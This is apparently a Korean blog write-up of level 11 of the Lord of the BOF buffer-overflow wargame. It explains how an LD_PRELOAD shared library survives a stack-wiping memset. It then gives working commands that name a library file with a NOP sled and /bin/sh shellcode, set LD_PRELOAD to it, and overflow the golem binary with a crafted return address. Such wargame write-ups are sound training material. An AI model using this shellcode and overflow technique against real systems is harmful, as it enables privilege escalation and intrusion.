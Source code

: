 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 11"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level11/1.jpg" | relative_url }}' alt='relative'>  

## 1) skeleton/shellcoder 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level11/2.png" | relative_url }}' alt='relative'>  

``` c
// stack destroyer!
memset(buffer, 0, 44);
memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
```

argc, argv, envp, ... 등 buffer 배열 이후에 RET 부분을 제외하고 스택의 내용을 다 0으로 덮어써버립니다.  

이 문제를 풀기 위해서는 공유라이브러리와 LD_PRELOAD를 알아야 합니다.  

## 2) LD_PRELOAD 환경변수  

LD_PRELOAD 환경변수에 저장된 라이브러리를 기존 라이브러리가 로딩되기 전에 로딩합니다.  
기존 라이브러리에 LD_PRELOAD 환경변수에 저장된 라이브러리와 중복된 이름의 함수가 있는 경우 
LD_PRELOAD 환경변수에 저장된 라이브러리가 먼저 로딩되었으므로 LD_PRELOAD 환경변수에 저장된 라이브러리에서 함수를 호출합니다.  

LD_PRELOAD의 메모리 영역은 공유 라이브러리 영역으로, 공유 라이브러리 영역이 스택의 지역 변수 영역보다 낮은 주소에 존재합니다.  
``` c
// stack destroyer!
memset(buffer, 0, 44);
memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
```
그래서 이 코드 부분에서 LD_PRELOAD 메모리 영역은 0으로 초기화되지 않고 값을 그대로 유지할 수 있습니다.  

이 문제를 풀기 위해서는 쉘코드를 포함하는 공유라이브러리를 생성하고 LD_PRELOAD에 해당 라이브러리를 설정하면 됩니다.  

## 3) 공유 라이브러리 만들기  

공유라이브러리를 만들기 위해 -fPIC 와 -shared 옵션을 사용해야 합니다.  

-fPIC 옵션은 Position Independent Code의 약자로 컴파일시 컴파일되는 파일을 동적라이브러리로 사용하도록 지정하는 옵션입니다.  
-shared 옵션은 공유 라이브러리를 만드는 옵션입니다.  

attack.c라는 빈 파일을 만들고 NOP과 쉘코드로 구성된 파일명으로 컴파일 합니다. 공유 라이브러리를 만들기 위해 컴파일시 -fPIC와 -shared 옵션을 넣어주었습니다.  

``` bash
touch attack.c

gcc -fPIC -shared attack.c -o `python -c 'print "\x90"*100+"\x90"*50+"\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

파일명에 쉘코드를 포함하는 라이브러리를 절대경로로 입력하여 LD_PRELOAD 환경변수에 저장합니다.  

``` bash
 export LD_PRELOAD="/home/skeleton/`python -c 'print "\x90"*100+"\x90"*50+"\x31\xc0\x50\xb8\x97\x97\x39\x34\x05\x98\x97\x39\x34\x50\xb8\x17\xb1\x34\x37\x05\x18\xb1\x34\x37\x50\x31\xc0\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`"
```

<img data-action="zoom" src='{{ "assets/lob/level11/3.png" | relative_url }}' alt='relative'>  

## 4) 공유 라이브러리가 위치한 스택 주소 확인하기  

<img data-action="zoom" src='{{ "assets/lob/level11/4.png" | relative_url }}' alt='relative'>  

스택의 구조를 도식화한 그림입니다. 그림에서 보이는 것처럼 공유 라이브러리는 스택의 위에 위치하고 있습니다.  


<img data-action="zoom" src='{{ "assets/lob/level11/5.png" | relative_url }}' alt='relative'>  

스택이 현재 가리키는 주소를 저장하고있는 $esp 레지스터의 값에서 1500 byte 위에 있는 공간에는 어떤 값이 저장되어 있는지 출력해봤습니다.  
0xbffff55b에 LD_PRELOAD 환경변수에 저장하였던 공유 라이브러리가 위치하고 있습니다.  

main 함수 종료 후 반환될 주소를 0xbffff580 주소로 설정하기 위해 RET에 입력하겠습니다.  

## 5) 공격 페이로드 입력하여 BOF 일으키기  

``` bash
./golem `python -c 'print "A"*44+"\x80\xf5\xff\xbf"'`
```

<img data-action="zoom" src='{{ "assets/lob/level11/6.png" | relative_url }}' alt='relative'>  


